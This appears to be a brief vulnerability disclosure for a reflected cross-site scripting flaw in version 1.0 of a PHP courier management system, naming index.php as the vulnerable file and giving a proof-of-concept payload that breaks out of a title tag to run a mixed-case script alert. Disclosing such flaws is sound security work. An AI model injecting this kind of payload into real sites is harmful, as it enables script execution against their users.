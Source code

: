 * Exploit Title: best-courier-management-system - reflected xss

* Software Link: https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html

* Version: 1.0  

* Vulnerable file:index.php
![image]()  


* POC:  
</TiTlE><ScRiPt>alert(1)</ScRiPt>

![image]()   